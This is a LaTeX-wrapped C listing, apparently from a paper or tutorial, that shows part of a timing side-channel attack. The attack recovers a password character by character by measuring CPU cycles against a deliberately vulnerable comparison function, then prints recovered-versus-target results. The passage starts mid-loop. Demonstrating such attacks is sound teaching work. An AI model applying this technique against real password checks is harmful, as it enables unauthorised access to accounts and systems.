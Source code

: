 \documentclass[11pt,a4paper]{article}
\theoremstyle{definition}
\begin{document}
\begin{lstlisting}[caption={Attack Execution with Concrete Results}]
            if (avg_timing > max_timing) {
                max_timing = avg_timing;
                best_char = c;
            }
        }
        
        // Test lowercase letters
        for (char c = 'a'; c <= 'z'; c++) {
            char test_input[9] = "XXXXXXXX";
            memcpy(test_input, recovered, pos);
            test_input[pos] = c;
            
            uint64_t total_timing = 0;
            for (int rep = 0; rep < 10; rep++) {
                total_timing += measure_cycles(verify_password_vulnerable, 
                                             test_input, secret_password);
            }
            uint64_t avg_timing = total_timing / 10;
            
            if (avg_timing > max_timing) {
                max_timing = avg_timing;
                best_char = c;
            }
        }
        
        // Test digits
        for (char c = '0'; c <= '9'; c++) {
            char test_input[9] = "XXXXXXXX";
            memcpy(test_input, recovered, pos);
            test_input[pos] = c;
            
            uint64_t total_timing = 0;
            for (int rep = 0; rep < 10; rep++) {
                total_timing += measure_cycles(verify_password_vulnerable, 
                                             test_input, secret_password);
            }
            uint64_t avg_timing = total_timing / 10;
            
            if (avg_timing > max_timing) {
                max_timing = avg_timing;
                best_char = c;
            }
        }
        
        // Analyze results
        uint64_t timing_diff = max_timing - baseline_wrong;
        const char* status = (timing_diff > 500) ? "SUCCESS" : "UNCERTAIN";
        
        printf("    %d    |     %c     |     %lu     |    +%lu    | %s\n", 
               pos, best_char, max_timing, timing_diff, status);
        
        if (timing_diff > 500) {  // Threshold for reliable detection
            recovered[pos] = best_char;
            recovered[pos + 1] = '\0';
        } else {
            printf("Attack confidence too low, stopping.\n");
            break;
        }
    }
    
    printf("\n=== ATTACK RESULTS ===\n");
    printf("Target password: %s\n", secret_password);
    printf("Recovered:       %s\n", recovered);
    printf("Success:         %s\n", 
           strcmp(recovered, secret_password) == 0 ? "COMPLETE" : "PARTIAL");
    
    return 0;
}
\end{lstlisting}
\end{document}
